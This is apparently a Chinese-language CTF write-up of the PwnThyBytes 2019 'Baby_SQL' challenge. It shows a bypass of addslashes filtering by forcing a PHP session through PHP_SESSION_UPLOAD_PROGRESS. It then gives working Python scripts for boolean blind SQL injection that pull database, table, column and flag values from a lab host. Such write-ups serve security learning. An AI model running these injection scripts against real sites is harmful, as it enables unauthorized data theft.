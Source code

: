 ```yaml
---
title: '[PwnThyBytes 2019]Baby_SQL'
date: 2024-10-16 19:33:01
tags:
      - sql注入
      - session
categories: 刷题笔记
---
```


### [PwnThyBytes 2019]Baby_SQL

我们打开页面源码，发现有个source.zip，我们访问它进行下载

![image-20241017191402754](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171914847.png)

我们进行代码审计

我们发现在index.php里会对传入的值进行转义

![image-20241017191623318](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171916368.png)

 addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。

<!--more-->

预定义字符是：

- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

register和login都没有啥过滤，但register必须要为admin注册

![image-20241017192119051](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171921081.png)

我们发现登录存在注入点

![image-20241017192303743](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171923772.png)

我们可以通过username来进行注入，但前提是要先连接数据库

我们在login和register最上方代码发现要连接数据库，需要存在session

![image-20241017192341317](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171923343.png)

session数组是在session_start()初始化后才产生，所以我们可以伪造一个session来直接访问login和register，从而绕过index的过滤，来进行sql注入

在phpsession里如果在php.ini中设置session.auto_start=On，那么PHP每次处理PHP文件的时候都会自动执行session_start()，但是session.auto_start默认为Off。与Session相关的另一个叫session.upload_progress.enabled，默认为On，在这个选项被打开的前提下我们在multipart POST的时候传入PHP_SESSION_UPLOAD_PROGRESS，PHP会执行session_start()
这个方法同样可以用来进行文件包含和反序列化

我们来写个脚本

```
import requests

url = "http://6a742e0c-c6b0-49a3-b626-f5f0578d17f1.node3.buuoj.cn/templates/login.php"

files = {"file": "123456789"}
a = requests.post(url=url, files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
                  cookies={"PHPSESSID": "test1"}, params={'username': 'test', 'password': 'test'},
                  proxies={'http': "http://127.0.0.1:8080"})
print(a.text)

```

![image-20241017193241834](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171932889.png)

返回try again

说明我们成功构造，就可以绕过index/php来注入了，login没有任何过滤，可以直接注入，但是没有回显，我们使用盲注

库名

ptbctf

表名

flag_tbl,ptbctf

字段名

flag_tbl：secret

ptbctf：username password

查flag_tbl的字段值即可

```
import requests
import time
url = "http://6a742e0c-c6b0-49a3-b626-f5f0578d17f1.node3.buuoj.cn/templates/login.php"

files = {"file": "123456789"}



'''字段值'''
flag=''
for i in range(1,100):
    low = 32
    high = 128
    mid = (low+high)//2
    while (low < high):
        time.sleep(0.06)
        # payload_flag ={'username': "test\" or (ascii(substr((select group_concat(username) from ptbctf ),{0},1))>{1}) #".format(i, mid),'password': 'test'}
        payload_flag = {
            'username': "test\" or (ascii(substr((select group_concat(secret) from flag_tbl ),{0},1))>{1}) #".format(i,mid),'password': 'test'}
        r = requests.post(url=url,params=payload_flag,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
                  cookies={"PHPSESSID": "test1"})

        print(payload_flag)
        if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
            low = mid +1
        else:
            high = mid
        mid = (low + high) // 2
    if(mid==32 or mid == 132):
        break
    flag +=chr(mid)
    print(flag)

print(flag)

# column=''
# for i in range(1,100):
#     low = 32
#     high = 128
#     mid = (low+high)//2
#     while (low < high):
#         time.sleep(0.06)
#         payload_column ={'username': "test\" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=\'flag_tbl\' ),{0},1))>{1}) #".format(i, mid),'password': 'test'}
#         r = requests.post(url=url,params=payload_column,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
#                   cookies={"PHPSESSID": "test1"})
#
#         print(payload_column)
#         if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
#             low = mid +1
#         else:
#             high = mid
#         mid = (low + high) // 2
#     if(mid==32 or mid == 132):
#         break
#     column +=chr(mid)
#     print(column)
#
# print(column)

# '''表名'''
# table=''
# for i in range(1,100):
#     low = 32
#     high = 128
#     mid = (low+high)//2
#     while (low < high):
#         time.sleep(0.06)
#         payload_table ={'username': 'test" or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=\'ptbctf\'),{0},1))>{1}) #'.format(i, mid),'password': 'test'}
#         r = requests.post(url=url,params=payload_table,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
#                   cookies={"PHPSESSID": "test1"})
#         print(payload_table)
#         if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
#             low = mid +1
#         else:
#             high = mid
#         mid = (low + high) // 2
#     if(mid==32 or mid == 132):
#         break
#     table+=chr(mid)
#     print(table)
#
# print(table)

# '''数据库名'''
# database=''
# for i in range(1,100):
#     low = 32
#     high = 128
#     mid = (low+high)//2
#     while (low < high):
#         time.sleep(0.06)
#         payload_database ={'username': 'test" or (ascii(substr((select database()),{0},1))>{1}) #'.format(i, mid),'password': 'test'}
#         r = requests.post(url=url,params=payload_database,files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "123456789"},
#                   cookies={"PHPSESSID": "test1"})
#         print(payload_database)
#         if '<meta http-equiv="refresh" content="0; url=?p=home" />' in r.text:
#             low = mid +1
#         else:
#             high = mid
#         mid = (low + high) // 2
#     if(mid==32 or mid == 132):
#         break
#     database+=chr(mid)
#     print(database)
#
# print(database)

```

得到flag

![image-20241017193646580](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410171936629.png)
